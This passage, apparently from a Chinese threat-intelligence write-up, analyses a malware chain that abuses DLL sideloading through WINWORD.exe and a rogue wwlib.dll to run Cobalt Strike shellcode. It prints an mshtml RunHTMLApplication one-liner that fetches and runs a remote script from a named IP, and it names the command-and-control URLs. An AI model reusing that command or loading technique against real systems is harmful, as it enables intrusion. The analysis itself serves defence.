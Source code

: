 WINWORD.exe会默认加载同目录下的wwlib.dll，而wwlib.dll是攻击者自己的，所以本质上这还是一个DLL劫持的白利用加载恶意代码方式。

#### 恶意代码加载流程

分析显示wwlib.dll的功能就是通过COM组件调用JavaScript本地执行一个脚本，相关的代码在102资源里：

[![](https://p5.ssl.qhimg.com/dm/1024_145_/t01c27840c0e344f4e1.png)](https://p5.ssl.qhimg.com/dm/1024_145_/t01c27840c0e344f4e1.png)

其中的脚本为：

```
javascript:"\..\mshtml.dll,RunHTMLApplication ";document.write();try`{`GetObject("script:http://27.102.102.139:80/lcpd/index.jpg")`}`catch(e)`{``}`;close();
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t014aeb3e6fc766b969.png)

调用COM组件执行脚本：

[![](https://p2.ssl.qhimg.com/t012edfc5b82de95dcb.png)](https://p2.ssl.qhimg.com/t012edfc5b82de95dcb.png)

执行的脚本[http://27.102.102.139:80/lcpd/index.jpg](http://27.102.102.139:80/lcpd/index.jpg) 内容如下：

[![](https://p5.ssl.qhimg.com/t010190dfb280331b2a.png)](https://p5.ssl.qhimg.com/t010190dfb280331b2a.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t015b6ec5f12408436e.png)

前面的变量serialized_obj是经过base64编码后的C#程序，该脚本调用程序的LoadShell方法，在内存中加载shl变量，下图为解密后的C#程序的LoadShell方法：

[![](https://p4.ssl.qhimg.com/t0150483de1f2098f1c.png)](https://p4.ssl.qhimg.com/t0150483de1f2098f1c.png)

接下来程序会把传过来的string做base64解密在内存中加载执行，下图为解密后的string，很容易看出来这又是Cobalt Strike的Shellcode Payload：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01b141d8c8fb1b54b9.png)

Shellcode会连接https://27.102.102.139/oEcE地址下载下一步攻击荷载，而oEcE就是前面分析的CobaltStrike的释放Beacon模块的Shellcode：

[![](https://p2.ssl.qhimg.com/t01a963b3c0cf2476e0.png)](https://p2.ssl.qhimg.com/t01a963b3c0cf2476e0.png)

经过和0x69异或配置文件解密出的配置文件如下：

[![](https://p2.ssl.qhimg.com/t015897f39fffef7f83.png)](https://p2.ssl.qhimg.com/t015897f39fffef7f83.png)

执行完Shellcode的同时会从资源中释放ID为102的doc文件并打开：

[![](https://p3.ssl.qhimg.com/t010f4f5ce48bb92546.png)](https://p3.ssl.qhimg.com/t010f4f5ce48bb92546.png)

[![](https://p3.ssl.qhimg.com/t01969690e1cdc1f497.png)](https://p3.ssl.qhimg.com/t01969690e1cdc1f497.png)
